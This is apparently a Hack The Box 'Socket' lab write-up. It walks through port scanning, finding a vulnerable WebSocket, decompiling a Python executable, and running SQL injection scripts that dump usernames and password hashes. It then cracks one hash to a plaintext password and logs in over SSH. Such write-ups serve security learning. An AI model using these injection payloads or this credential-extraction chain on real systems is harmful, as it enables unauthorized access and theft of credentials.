 # Hack the Box - Socket
```CSS
Machine IP: 10.10.11.206
```

## Reconnaissance
```CSS
▶ nmap -Pn -sS -p- 10.10.11.206 -T4 --min-rate 1000 -oN nmap.surface

Nmap scan report for 10.10.11.206
Host is up (0.18s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5789/tcp open  unknown
```

```CSS
▶ nmap -sV -sC -p 22,80,5789 10.10.11.206 -oN nmap.deep

Nmap scan report for 10.10.11.206                                                     
Host is up (0.081s latency).                                                     
PORT     STATE SERVICE VERSION                                                        
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:                                                                        
|   256 4fe3a667a227f9118dc30ed773a02c28 (ECDSA)                          
|_  256 816e78766b8aea7d1babd436b7f8ecc4 (ED25519)                        
80/tcp   open  http    Apache httpd 2.4.52                                            
|_http-title: Did not follow redirect to http://qreader.htb/              
|_http-server-header: Apache/2.4.52 (Ubuntu)                              
5789/tcp open  unknown                                                                
| fingerprint-strings:                                                                
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest:                   
|     HTTP/1.1 400 Bad Request                                                        
|     Date: Tue, 04 Apr 2023 06:08:33 GMT                                             
|     Server: Python/3.10 websockets/10.4                                             
|     Content-Length: 77                                                              
|     Content-Type: text/plain                                                        
|     Connection: close                                                               
|     Failed to open a WebSocket connection: did not receive a valid HTTP request.
|   Help, SSLSessionReq:                                                              
|     HTTP/1.1 400 Bad Request     
|     Date: Tue, 04 Apr 2023 06:08:49 GMT                                             
|     Server: Python/3.10 websockets/10.4
|     Content-Length: 77                                                                                                                                                    
|     Content-Type: text/plain                                                                                                                                              
|     Connection: close                                                                                                                                                     
|_    Failed to open a WebSocket connection: did not receive a valid HTTP request.
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5789-TCP:V=7.93%I=7%D=4/4%Time=642BBEDA%P=x86_64-pc-linux-gnu%r(Gen
SF:ericLines,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Tue,\x2004
SF:\x20Apr\x202023\x2006:08:33\x20GMT\r\nServer:\x20Python/3\.10\x20websoc
SF:kets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plain\r\nC
SF:onnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket\x20co
SF:nnection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20request\.\n
SF:")%r(GetRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\x20Tue,
SF:\x2004\x20Apr\x202023\x2006:08:33\x20GMT\r\nServer:\x20Python/3\.10\x20
SF:websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20text/plai
SF:n\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20WebSocket
SF:\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x20reque
SF:st\.\n")%r(HTTPOptions,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nDate:\
SF:x20Tue,\x2004\x20Apr\x202023\x2006:08:33\x20GMT\r\nServer:\x20Python/3\
SF:.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type:\x20te
SF:xt/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20a\x20We
SF:bSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x20HTTP\x
SF:20request\.\n")%r(RTSPRequest,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nDate:\x20Tue,\x2004\x20Apr\x202023\x2006:08:33\x20GMT\r\nServer:\x20Py
SF:thon/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type
SF::\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20
SF:a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x2
SF:0HTTP\x20request\.\n")%r(Help,F4,"HTTP/1\.1\x20400\x20Bad\x20Request\r\
SF:nDate:\x20Tue,\x2004\x20Apr\x202023\x2006:08:49\x20GMT\r\nServer:\x20Py
SF:thon/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nContent-Type
SF::\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x20open\x20
SF:a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x20valid\x2
SF:0HTTP\x20request\.\n")%r(SSLSessionReq,F4,"HTTP/1\.1\x20400\x20Bad\x20R
SF:equest\r\nDate:\x20Tue,\x2004\x20Apr\x202023\x2006:08:49\x20GMT\r\nServ
SF:er:\x20Python/3\.10\x20websockets/10\.4\r\nContent-Length:\x2077\r\nCon
SF:tent-Type:\x20text/plain\r\nConnection:\x20close\r\n\r\nFailed\x20to\x2
SF:0open\x20a\x20WebSocket\x20connection:\x20did\x20not\x20receive\x20a\x2
SF:0valid\x20HTTP\x20request\.\n");
Service Info: Host: qreader.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Port 80 (HTTP)
![image](https://user-images.githubusercontent.com/83878909/229703936-7e17a816-81bd-423d-85d0-87340533cdc2.png)

## Port 5789 (Web Socket)
- Test websocket for vulnerabilities.
- Tool: [STEWS](https://github.com/PalindromeLabs/STEWS)
- Test for generic Cross-site WebSocket Hijacking (CSWSH).

```CSS
▶ python3 STEWS-vuln-detect.py -1 -n -u 10.10.11.206:5789

Testing ws://10.10.11.206:5789
>>>Note: ws://10.10.11.206:5789 allowed http or https for origin
>>>Note: ws://10.10.11.206:5789 allowed null origin
>>>Note: ws://10.10.11.206:5789 allowed unusual char (possible parse error)
>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)
====Full list of vulnerable URLs===
['ws://10.10.11.206:5789']
['>>>VANILLA CSWSH DETECTED: ws://10.10.11.206:5789 likely vulnerable to vanilla CSWSH (any origin)']
```
![image](https://user-images.githubusercontent.com/83878909/229711076-b95bf50d-7021-4e24-8d5a-8d28cb23c0a1.png)

## Application
- The website offers functions to generate and scan a QR code both online and offline.
![image](https://user-images.githubusercontent.com/83878909/229722201-95ca3832-3091-42b6-ab72-70edc0d413fe.png)

- Download the Windows version and decompile the `.exe` file.
- Tool: [pyinstxtractor](https://github.com/extremecoders-re/pyinstxtractor)
```CSS
▶ python /opt/pyinstxtractor/pyinstxtractor.py qreader.exe
```
![image](https://user-images.githubusercontent.com/83878909/229724067-57f3db4f-3de5-4057-b3c1-c4a9c74a9fd8.png)
![image](https://user-images.githubusercontent.com/83878909/229725104-5a4320b4-2d0a-4033-9924-908951d05a2c.png)

- Decompile the python byte code file `qreader.pyc`.
- Tool: [Decompyle++](https://github.com/zrax/pycdc)
```CSS
▶ pycdc qreader.pyc > qreader.py
```
![image](https://user-images.githubusercontent.com/83878909/230316867-b080dca6-cdfd-4ebd-a4e3-2c437f9ecc46.png)

- Code vulnerable to SQL injection in the `qreader.py` source code file.
![image](https://user-images.githubusercontent.com/83878909/230321898-e204482f-f555-4174-95a0-99bcbfe452eb.png)

- Retrieving the Usernames
```CSS
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT group_concat(answer),"2","3","4" FROM answers;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```
![image](https://user-images.githubusercontent.com/83878909/230322498-1e5a64d2-90b7-4d77-8f52-71c8ca513408.png)

- Retrieving the Passwords
```CSS
from websocket import create_connection
import json

ws_host = 'ws://qreader.htb:5789'
VERSION = '0.0.3" UNION SELECT username,password,"3","4" from users;-- -'
ws = create_connection(ws_host + '/version')
ws.send(json.dumps({'version': VERSION}))
result = ws.recv()
print(result)
ws.close()
```
![image](https://user-images.githubusercontent.com/83878909/230322831-b495e3ef-7247-48a0-ad42-69ee2ef2a624.png)

### Crack the Password
```CSS
▶ john pass --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt
```
![image](https://user-images.githubusercontent.com/83878909/230323862-17342bf6-c263-47dc-b674-c560d7d47baf.png)
- Clear Text Password: `denjanjade122566`

## SSH Login
```CSS
▶ ssh tkeller@10.10.10.206
```
![image](https://user-images.githubusercontent.com/83878909/230324605-3f62c848-a217-4a0a-98d0-3a7bcd6198dc.png)
